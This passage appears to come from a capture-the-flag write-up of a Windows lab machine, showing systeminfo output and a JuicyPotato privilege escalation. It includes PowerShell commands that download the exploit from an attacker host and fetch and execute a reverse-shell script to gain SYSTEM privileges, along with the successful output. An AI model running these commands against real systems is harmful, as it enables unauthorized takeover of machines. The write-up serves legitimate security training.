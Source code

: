 ```none
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,104 MB
Virtual Memory: Max Size:  2,687 MB
Virtual Memory: Available: 1,712 MB
Virtual Memory: In Use:    975 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 10 Hotfix(s) Installed.
                           [01]: KB3150513
                           [02]: KB3161102
                           [03]: KB3172729
                           [04]: KB3173428
                           [05]: KB4021702
                           [06]: KB4022633
                           [07]: KB4033631
                           [08]: KB4035632
                           [09]: KB4051613
                           [10]: KB4041689
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.63
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

The combination of being part of the `NT AUTHORITY\SERVICE`, having the `SeImpersonatePrivilege` privilege, and running on a `Windows 10 Professional x64` machine is a recipe for the [JuicyPotato](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato) privilege escalation exploit which allows the user to execute arbitrary commands with `SYSTEM` privileges.

I downloaded the `JuicyPotato.exe` exploit from my Kali machine to the jeeves host via HTTP:

```powershell
(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.24:8000/JuicyPotato.exe","C:\Windows\Temp\r0kit\JuicyPotato.exe")
```

I then ran the exploit such that I could invoke a temporary PowerShell command that would download and execute the `Invoke-PowerShellTcp.ps1` script from my Kali machine which would connect back to my netcat listener. This would grant me a PowerShell reverse shell with `SYSTEM` privileges.

```none
PS C:\Windows\Temp\r0kit> .\JuicyPotato.exe -l 1337 -p 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' -a "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.14.24:8000/Invoke-PowerShellTcp.ps1')" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
